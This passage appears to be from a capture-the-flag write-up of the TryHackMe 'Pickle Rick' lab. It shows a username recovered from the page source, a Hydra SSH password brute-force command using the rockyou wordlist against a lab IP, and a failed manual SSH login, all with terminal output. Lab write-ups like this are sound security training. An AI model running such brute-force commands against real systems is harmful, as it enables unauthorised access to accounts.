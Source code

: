 ![Main Web Page](images/01-webpage.png)


---
## Web Page Source Code
Reveals a user name: R1ckRul3s
```
R1ckRul3s
```


---
## Hydra attempt 1
Try **Hydra** on the **SSH** port
```
┌──(kali㉿kali)-[~/THM/PickleRick]
└─$ *hydra 10.10.10.48 -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt ssh* 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-12 10:14:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.10.48:22/
[ERROR] target ssh://10.10.10.48:22/ does not support password authentication (method reply 4).
```


---
## SSH Attempt 1

```
┌──(kali㉿kali)-[~/THM/PickleRick]
└─$ *ssh R1ckRul3s@10.10.10.48*
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:QomrXg37wA8GsJtj3leMIcBITzgMbb2y5EifvLBqD1Y.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
R1ckRul3s@10.10.10.48: Permission denied (publickey).
```
